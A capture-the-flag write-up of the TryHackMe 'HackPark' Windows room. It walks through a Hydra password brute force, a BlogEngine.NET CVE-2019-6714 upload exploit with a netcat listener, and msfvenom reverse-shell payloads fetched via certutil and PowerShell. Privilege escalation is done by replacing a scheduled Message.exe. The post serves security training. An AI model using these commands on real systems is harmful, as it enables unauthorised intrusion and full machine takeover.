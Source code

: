 ```yaml
---
layout: post
title: "HackPark"
date: 2022-04-24
categories: [Tryhackme, Medium-THM]
tags: [Windows, CVE-2019-6714, RCE]
image: ../../assets/img/posts/HackPark.png 

---
```


## Description

Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!.

|**Room**|[HackPark](https://tryhackme.com/room/hackpark)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Medium|
|**Creator**|[tryhackme](https://tryhackme.com/p/tryhackme)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.108.193 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/164982229-1fdef16f-e008-4bd5-927a-0254bfe4108b.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sC -sV -p80,3389 10.10.108.193 -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/164982232-c4330b6d-2dcf-451d-94ac-39609adc5525.png)

Result scan shows that port 80 is running Microsoft IIS server and port 3389 is running another server. Let's start enumerating port 80 first.

Visit http://10.10.108.193,

![image](https://user-images.githubusercontent.com/67465230/164982237-a2a4c598-85c6-4be7-8dbb-0e7474656101.png)

we can see that there is a joker face on the webpage and nothing much.

When I clicked on hamburger icon on top right, I saw login option. Then I got redirected to this url,

![image](https://user-images.githubusercontent.com/67465230/164982242-195f1d7e-76d2-44a1-b534-2523a6337f5c.png)

Okay so here we need to brute force the password to log into panel. But we can see that url includes admin directory out of nowhere, so we can guess the username might be admin and we need to bruteforce the password. So I fireoff the burp suite, send test credentials, copied the post request and paste it in the terminal,

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.108.193 http-post-form "/Account/login.aspx:__VIEWSTATE=FByN8IUAIgjIQty6sGNJDaxnFuAjBFom0EAv6qO0UrvfNodWeW7ckCi3V5gMNUPSXlewBMeSDzeREcbW1j%2BXqSN02JJO6zY0HNloJVvoy4san2PKPikiR90wm1ofrW8Mtf%2BbhM6S2eP3j7buPU0dGpDTJbgQD5T7mltwublxv5XbQgXujmJplTyDZMts0ruonmySZUhGJ%2F%2FrbwypcFHd41fykNOAodAPeChVFSr6DIa4HhFq8t9%2BCY11qqNEVDpzjHuwN5IsuD6Qk9OwUEJxj%2FXybFvoq2UB%2BXVskxoyHTw%2BHsE7vUJtix02vGmMvTHyOxwuIPg06%2BbNfmiRdL14gvG8qD9Lmj9gSMt3MpP6n0BtSnYg&__EVENTVALIDATION=6gczvSYyvL6syWXigPyX3WH3EijLp%2F2ppsErkVbFTgnwsUoQRDdssKykyOaK29bb%2Fua8yGae%2Ff2KlbIYvVRxtF8H4GWitRuf5PXIEPAZKYBIGh0%2FsNSqJR2t5afu7sg24gLK%2B1SPMua%2BjnhapUhRhxOzyokf5GM4hSaSwmvQ%2B24GmXM3&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -t 4
```

![image](https://user-images.githubusercontent.com/67465230/164982251-6ff795c6-284c-4ffa-88cc-83258c32216d.png)

after sometime, I got the admin credential as well.

I tried to log in using admin credential and got into website panel,

![image](https://user-images.githubusercontent.com/67465230/164982253-2e59be0b-1a1b-488d-8c2b-bede7992d290.png)

On about page, I saw the version of the software running on this webserver, 
**BlogEngine.NET 3.3.6**,

![image](https://user-images.githubusercontent.com/67465230/164982258-4084cb90-5c92-4c4d-bb66-00565106f04c.png)

So I quickly search for the possible exploit of [BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution ](https://www.exploit-db.com/exploits/46353),

>**CVE-2019-6714** : An issue was discovered in BlogEngine.NET through 3.3.6.0. A path traversal and Local File Inclusion vulnerability in PostList.ascx.cs can cause unauthenticated users to load a PostView.ascx component from a potentially untrusted location on the local filesystem. This is especially dangerous if an authenticated user uploads a PostView.ascx file using the file manager utility, which is currently allowed. This results in remote code execution for an authenticated user.

Let’s follow the instructions:

1. Start by modifying the script so that we report the correct value for IP and port.
2. Rename your script as `PostView.ascx`
3. Go to posts http://10.10.79.198/admin/#/content/posts and click on “Welcome to HackPark” to edit this post
4. From the edit bar on top of the post, click on the “File Manager” icon
5.  Click on the “+ UPLOAD” button and upload the `PostView.ascx` script
6. Close the file manager and click on “Save”
7. Now, open your listener (`rlwrap nc -nlvp 1234`)
8. Go to http://10.10.79.198/?theme=../../App_Data/files

We got reverse shell and issuing whoami command, we see that we are **iis apppool\blog** user,

![image](https://user-images.githubusercontent.com/67465230/164982269-aa66a7b3-82f4-4229-b520-5265a191c8a8.png)

Since this is windows environment and we can stabilize the shell with the commands used to stabilize linux shell, we can generate a payload using msfvenom and upload it to the target machine and trigger it to get reverse connection.

Let's quickly generate the malicious payload using msfvenom,

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.3.252 LPORT=5555 -f exe > shell.exe
```

![image](https://user-images.githubusercontent.com/67465230/164982276-374e96db-4558-47e0-b4d7-fa380889acfe.png)

Now start the python3 server using `python3 -m http.server` and transfer the payload using certutil command,

```bash
certutil -urlcache -f http://10.9.3.252:8000/shell.exe shell.exe
```

![image](https://user-images.githubusercontent.com/67465230/164982280-e14dbc37-bd36-403e-811a-ccd8da250d62.png)

we can see that our payload gets transferred. 

Let's boot up the metasploit-framework using `msfconsole -q` and set up using,

```bash
use exploit/multi/handler
options
set lhost 10.9.3.252
set lport 5555
run
```

after setting the listener, we need to run the executable in order to trigger the shell. We then get the connection on our listener,

![image](https://user-images.githubusercontent.com/67465230/164982282-cb941c11-b624-456d-ac48-1368f2c2b28e.png)

Enumerating system using `sysinfo`,

![image](https://user-images.githubusercontent.com/67465230/164982525-dacb6d2b-a979-4748-bf0d-9f8450fb9015.png)

Let's take a look at processes running on the system using `ps`,

![image](https://user-images.githubusercontent.com/67465230/164982285-ebcdd7cf-dd2a-40d9-9905-e1754721ad7f.png)

let's search for message executable in the system,

```bash
search -f Message.exe
```

![image](https://user-images.githubusercontent.com/67465230/164982292-c48a2de6-fcc8-4745-a458-591a53da4821.png)

Now that we know where the executable resides, we can navigate to directory and list all the files,

![image](https://user-images.githubusercontent.com/67465230/164982298-1f889ac6-4dc8-492c-8755-8c46cf29a0b3.png)

Let's check the content of the 20198415519.INI_LOG.txt,

```bash
cat 20198415519.INI_LOG.txt
```

![image](https://user-images.githubusercontent.com/67465230/164982301-eeeb73a0-d5df-4769-89f8-aaebfbb82450.png)

we can see that Message.exe service is running as Administrator after every 30 seconds.

Let's try to navigate to jeff user directory and we can see that we got **Access is denied** message because we don't have enough privileges,

![image](https://user-images.githubusercontent.com/67465230/164982306-f21fc7eb-ae7f-4879-b525-0b14f4bb5870.png)

Now, what we can do is that to create the payload of same name (**Message.exe**) and transfer it to the system, put in the same path we discovered above. Then this malicious Message.exe will run every 30 seconds as Administrator user, giving us system shell. 

So let's first create the malicious payload using msfvenom,

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.3.252 LPORT=6666 -f exe > Message.exe
```

![image](https://user-images.githubusercontent.com/67465230/164982307-5de2a22e-716d-4766-a135-7135c1761021.png)

Again, let's set up the another listener on metasploit-framework. Now, using powershell one-liner, we can transfer the payload,

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://10.9.3.252:8000/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```

![image](https://user-images.githubusercontent.com/67465230/164982313-33ff6ec8-ef03-4af7-8cb6-4c59c89ff1f9.png)

Now, we just need to wait for our malicious payload to run every 30 seconds and after that, we will get a reverse shell as **HACKPARK\Administrator user**,

![image](https://user-images.githubusercontent.com/67465230/164982314-0b34e8c0-6458-49de-8788-073ec4324792.png)

Now, we can navigate to jeff user directory and fetch the user flag,

![image](https://user-images.githubusercontent.com/67465230/164982453-936068f1-7e4d-406f-85e9-8af5368dc989.png)

same goes for Administrator user,

![image](https://user-images.githubusercontent.com/67465230/164982323-f70929e0-99c4-4016-a4c7-a7eb223ab1f4.png)
